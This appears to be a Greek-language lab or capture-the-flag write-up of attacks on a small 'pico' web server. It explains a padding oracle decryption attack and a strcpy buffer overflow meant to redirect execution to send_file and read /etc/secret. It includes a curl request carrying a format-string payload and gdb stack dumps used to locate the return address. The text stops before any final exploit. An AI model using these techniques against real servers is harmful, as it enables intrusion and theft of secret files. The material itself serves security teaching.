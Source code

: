 Εκμεταλλευόμενοι αυτής της πληροφορίας δημιουργήσαμε ένα oracle που σε κάθε request απαντάει true αν το padding είναι σωστό και false αν είναι λάθος.

Έπειτα κάνουμε decrypt κάθε block του cyphertext (από το τελευταίο προς το πρώτο) χρησιμοποιώντας το προηγόυμενο block. Για το πρώτο block του cyphertext χρησιμοποιούμε ως προηγούμενο μπλοκ το Initialize Vector που είναι 16 μηδενικά bytes.

Για το decrypt κάνουμε bruteforce requests μέχρι να βρόυμε valid padding που γνωρίζουμε ότι στο plaintext θα είναι 0x01, 0x02 0x02 κ.τ.λ. και ύστερα με πράξεις xor κάνουμε decrypt και τα υπόλοιπα βασιζόμενοι στον αλγόριθμο που βρίσκεται εδώ: https://flast101.github.io/padding-oracle-attack-explained/

Το αποτέλεσμα το μετατρέπουμε σε ascii και το εκτυπώνουμε.

### Task 3

Κοιτάζοντας τον κώδικα βρήκαμε τις εξής 2 γραμμές στη συνάρτηση post_param : 
```
char post_data[payload_size+1];     // dynamic size, to ensure it's big enough
strcpy(post_data, payload);
```
Αμέσως σκεφτήκαμε ότι θα μπορέσουμε να γεμίσουμε τον πίνακα post_data με σκοπό να γίνει κάποιο buffer overflow
και να αλλάξουμε τιμή στο return address της post_param. Ψάχνοντας παραπάνω στον κώδικα βρήκαμε την συνάρτηση 
send_file η οποία παίρνει σαν input το όνομα ενός αρχείου και γράφει στο stdout τα περιεχόμενά του. Καταλάβαμε 
λοιπόν πως αυτό που πρέπει να κάνουμε είναι να φτιάξουμε ένα payload με τέτοιον τρόπο ώστε να αλλάζει το 
return address της post_param με αυτό της send_file και να περνάει σαν όρισμα το "/etc/secret". 
Για να το πετύχουμε αυτό πρέπει πρώτα να καταλάβουμε πως δουλέυει η στοίβα του προγράμματος. Παίξαμε, έτσι, με 
το gdb. Τρέξαμε με gdb τοπικά τον pico server και θέσαμε breakpoints. Αναλυτικότερα : 

layout split  
set follow-fork-mode child  
b 127  

Το curl request που στείλαμε είναι το εξής :  
curl -s -I "http://127.0.0.1:8080/" --user "%08x.%08x.%08x.%08x.%08x%s%s:"  
```
(gdb) x/a $esp  
0xffffd4d0:     0xf7cefd20  
(gdb) x/a $ebp  
0xffffd538:     0xffffd568  

$ebp - $esp = ffffd538 – ffffd4d0 = 68  
$ebp - $esp = 4294956344 – 4294956240 = 104  
```
Άρα ο ebp έχει 104/4 = 26 words διαφορά από τον esp.Επίσης, γνωρίζουμε ότι 
το return address βρίσκεται ακριβώς μετά από τον $ebp, δηλαδή 27 words μετά τον $esp. Άρα το
return_address είναι το :
```
return_address = $esp+108

(gdb) x/a $esp+108  
0xffffd53c:     0x5655694a <route+104>
```
και για να επιβεβαιώσουμε τη θέση του ebp :
```
(gdb) x/a $esp+104  
0xffffd538:     0xffffd568  
```
Εκτυπώνοντας τον $esp και τα επόμενα 27 words :  
```
(gdb) x/28xw $esp  
0xffffd4d0:     0xf7cefd20      0x00000000      0x5655f356      0x5655c180  
0xffffd4e0:     0x00000000      0x5656f330      0x0000001d      0x00000000  
```